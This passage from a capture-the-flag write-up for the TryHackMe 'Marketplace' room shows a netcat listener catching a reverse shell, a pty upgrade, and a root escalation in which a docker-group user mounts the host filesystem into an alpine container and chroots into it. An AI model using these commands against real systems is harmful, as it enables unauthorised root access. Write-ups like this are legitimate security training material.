 ```
┌──(kali㉿kali)-[~/tryhackme/marketplace]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.33.229] 38916
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
$ python3 -c "import pty; pty.spawn('/bin/bash')"
michael@the-marketplace:/opt/backups$ 
```

Michael is in the docker group.  This means that we can create new containers, and hopefully mount the root filesystem.  Listing the available images shows that we have the alpine image:

```
michael@the-marketplace:/opt/backups$ docker images
docker images
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        16 months ago       2.16GB
nginx                        latest              4bb46517cac3        16 months ago       133MB
node                         lts-buster          9c4cc2688584        17 months ago       886MB
mysql                        latest              0d64f46acfd1        17 months ago       544MB
alpine                       latest              a24bb4013296        19 months ago       5.57MB
```

After creating and running, we see the root flag in the expected directory:

```
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
t /mnt shn -v /:/mnt --rm -it alpine chroot
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# pwd
pwd
/
# cd /root
cd /root
# ls
ls
root.txt
```